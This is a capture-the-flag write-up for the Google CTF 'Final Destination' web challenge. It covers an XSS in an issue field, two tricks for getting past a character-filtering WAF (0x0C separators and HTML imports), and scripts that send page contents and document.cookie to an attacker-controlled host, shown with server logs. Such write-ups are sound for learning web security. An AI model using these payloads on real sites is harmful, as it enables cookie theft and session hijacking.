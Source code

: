```yaml
---
layout: post
title: Google CTF - Final Destination [WEB]
author: lanjelot
tags: [ctf, googlectf, web]
---
```


 * Competition: Google CTF
 * Challenge Name: Final Destination
 * Type: Web
 * Points: 200 pts
 * URL: https://ctf-final-destination.appspot.com/

<!--more-->


We solved this challenge after the CTF was over. It was only solved by 1 team during the competition and we could not find any writeup so we looked into it a bit more since the webapp was still up.

The Home page looked like this:

![alt](https://i.imgur.com/ZtkJm2i.png)

The `issue` field seemed to be vulnerable to XSS as the app did not encode `[<>=/]` however there was a WAF filtering out most special characters such as `[space"'.]`.

We confirmed it was an XSS challenge by submitting `<iframe/src=//101058054>` with our IP address encoded in decimal, and we got a visit from phantomjs:

```
-- 146.148.94.130 [2016-05-15 11:24:07,099]
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://ctf-final-destination.appspot.com/reportz
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip
```

Cool, maybe the flag is in the html of /reportz but we get 403 Forbidden when trying to access that page, even when sending that `X-Secret` header and `X-Forwarded-For: 127.0.0.1` (or 146.148.94.130, from which phantomjs outbounds).

Let's try some xhr then. We set up our index.html as follows:

```html
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>
<script type="text/javascript" charset="utf-8">
$.ajax({
     type: "GET",
     url: 'http://ctf-final-destination.appspot.com/reportz',
     async: false,
     dataType : 'html',
     withCredetials: true, // so that X-Secret and any Cookie or auth header are sent to /reportz
     success: function(data, status, xhr) {
       $.post("http://our.ip/success", btoa(data));
     },
     error: function(jqXHR, textStatus, ex) {
       t = (textStatus + "," + ex + "," + jqXHR.responseText);
       $.post("http://our.ip/error", btoa(t));
     }
});
</script>
```

And submit the `<iframe/src=//101058054>` payload again but unfortunately, we end up in the error function which I think is due to ctf-final-destination.appspot.com not sending any CORS headers.

```
-- 146.148.94.130 [2016-05-15 11:43:05,064]
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://ctf-final-destination.appspot.com/reportz
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip

-- 146.148.94.130 [2016-05-15 11:43:05,468]
POST /error HTTP/1.1
Accept: */*
Referer: http://101058054/
Origin: http://101058054
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 88
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip

ZXJyb3IsRXJyb3I6IE5FVFdPUktfRVJSOiBYTUxIdHRwUmVxdWVzdCBFeGNlcHRpb24gMTAxLHVuZGVmaW5lZA==
```

At this point, {{ site.data.authors.ace.name }} stepped in and found the following two tricks:

 1. Trick #1: we can use 0x0C instead of space to separate html tag attributes as the WAF doesn't filter it out. Thanks to [@cure53](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-5) for the fine research.
 1. Trick #2: let's try to use [html imports](https://html5sec.org/#138), a feature [supported](http://caniuse.com/#feat=imports) by webkit-based browsers and therefore phantomjs. Also note that the WAF filtered out obvious event handlers such as onerror etc.

OK so we change our index.html to `<script>window.location='http://our.ip/success?'+document.cookie;</script>` to net the cookies (in the other task "geokitties", the flag was in a cookie). Then we configure our web server to send the CORS header `Access-Control-Allow-Origin: *` and submit `issue=%3Clink%0Crel%3Dimport%0Chref%3D%2F%2F101058054%3E`

Helloooo mr. flag:

```
-- 146.148.94.130 [2016-05-15 12:07:20,137]
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Referer: http://ctf-final-destination.appspot.com/reportz
Origin: http://ctf-final-destination.appspot.com
Accept: */*
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip

-- 146.148.94.130 [2016-05-15 12:07:20,345]
GET /success?flag=CTF%7BWhich-vegetable-did-Noah-leave-off-the-Ark---Leeks%7D HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://ctf-final-destination.appspot.com/reportz
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip
```

Thanks to the CTF organizers for the cool challenges.

